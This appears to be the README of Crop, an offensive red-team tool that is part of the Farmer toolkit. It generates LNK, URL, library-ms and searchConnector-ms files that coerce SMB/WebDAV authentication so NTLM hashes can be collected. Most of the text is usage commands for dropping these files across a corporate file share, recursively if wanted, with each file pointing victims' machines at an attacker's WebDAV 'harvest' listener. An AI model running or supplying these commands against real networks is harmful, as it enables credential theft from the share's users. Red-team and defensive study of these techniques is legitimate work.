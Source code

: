 # Crop
Author: @domchell

This project is a submodule of Farmer.

Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks.

Usage:
```
LNK File:
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
crop.exe \\fileserver\Common\ crop.lnk \\workstation@8888\harvest \\workstation@8888\harvest

Other formats:
Supported extensions: .url, .library-ms, .searchConnector-ms
crop.exe <output folder> <output filename> <WebDAV server> [options]
crop.exe \\fileserver\Common\ crop.url \\workstation@8888\harvest

Optional arguments:
--recurse : write the file to every sub folder of the specified path
--clean : remove the file from every sub folder of the specified path
```
